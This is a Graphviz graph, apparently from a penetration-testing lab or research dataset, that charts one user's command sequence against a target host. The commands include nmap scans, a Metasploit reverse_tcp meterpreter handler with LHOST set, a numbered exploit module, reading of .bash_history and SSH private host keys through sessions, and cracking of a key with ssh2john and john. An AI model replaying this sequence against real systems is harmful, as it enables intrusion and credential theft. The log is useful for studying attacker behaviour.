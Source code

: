 // creating graph for user: 42
digraph {
	node [shape=box]
	0 [label="nmap --help A0 A1 "]
	1 [label="nmap -p1-65535 172.18.1.5 M0 "]
	10 [label="setg A6 "]
	14 [label="use windows/meterpreter/reverse_tcp A4 "]
	17 [label="setg LHOST 10.1.135.83 M6 "]
	25 [label="use auxiliary/scanner/portscan/tcp A4 "]
	29 [label="run -j M8 "]
	30 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 A1 "]
	31 [label="show exploits A5 "]
	33 [label="use auxiliary/scanner/portscan/tcp A4 "]
	38 [label="msfconsole M2 "]
	40 [label="show A5 "]
	41 [label="show all A5 "]
	42 [label="show A5 "]
	46 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 A1 "]
	47 [label="use exploit/multi/handler A4 "]
	51 [label="set ExitOnSession false A10 "]
	53 [label="use exploit/47230 A4 "]
	63 [label="use exploit/47230 A4 "]
	75 [label="use exploit/47230 A4 "]
	85 [label="use exploit/multi/handler A4 "]
	89 [label="set ExitOnSession false A10 "]
	93 [label="use exploit/47230 A4 "]
	107 [label="sessions -c 3 ls A10 "]
	108 [label="sessions 3 -c ls A10 "]
	110 [label="sessions 3 -c ls A10 "]
	123 [label="sessions 3 -c less WARNING-READ-ME.txt M9 "]
	124 [label="sessions 3 -c ls A10 "]
	130 [label="sessions -c search history A3 "]
	131 [label="sessions -c find history A10 "]
	132 [label="sessions -c find *.bash_history M10 "]
	139 [label="sessions 3 -c less .bash_history M11 "]
	146 [label="sessions 3 -c find -name ssh A16 "]
	147 [label="sessions 3 -c cd /etc/ssh A16 "]
	149 [label="sessions 3 -c less ssh_host_rsa_key A12 A16 A17 "]
	150 [label="openssh A16 "]
	151 [label="ssh A16 "]
	152 [label="ssh -i /root/ssh M16 "]
	157 [label="less /desktop/ssh A12 A17 "]
	159 [label="less /root/desktop/ssh A12 A17 "]
	160 [label="less /root/Desktop/ssh A12 A17 "]
	162 [label="sessions 3 -c less ssh_host_ecdsa_key.pub A12 A17 "]
	164 [label="sessions 3 -c less ssh_host_ecdsa_key A12 A17 "]
	168 [label="sessions 3 -c less ssh_config A12 A17 "]
	170 [label="chmod 600 /etc/ssh/ssh_comp M15 "]
	174 [label="sessions 3 -c less sshd_config A12 A17 "]
	176 [label="sessions 3 -c less ssh_host_ecdsa_key A12 A17 "]
	185 [label="python ssh2john.py M13 "]
	186 [label="python ssh2john.py /etc/ssh/ssh_comp A14 "]
	187 [label="python ssh2john.py --help A14 "]
	188 [label="python ssh2john.py A14 "]
	189 [label="python ssh2john.py A14 "]
	190 [label="python ssh2john.py /root/Desktop/ssh_comp A14 "]
	191 [label="john --wordlist rockyou.txt /root/Desktop/john M14 "]
	0 -> 1 [constraint=false]
	1 -> 10 [constraint=false]
	10 -> 14 [constraint=false]
	14 -> 17 [constraint=false]
	17 -> 25 [constraint=false]
	25 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 33 [constraint=false]
	33 -> 38 [constraint=false]
	38 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 51 [constraint=false]
	51 -> 53 [constraint=false]
	53 -> 63 [constraint=false]
	63 -> 75 [constraint=false]
	75 -> 85 [constraint=false]
	85 -> 89 [constraint=false]
	89 -> 93 [constraint=false]
	93 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 110 [constraint=false]
	110 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 139 [constraint=false]
	139 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 157 [constraint=false]
	157 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 162 [constraint=false]
	162 -> 164 [constraint=false]
	164 -> 168 [constraint=false]
	168 -> 170 [constraint=false]
	170 -> 174 [constraint=false]
	174 -> 176 [constraint=false]
	176 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	rankdir=LR
}
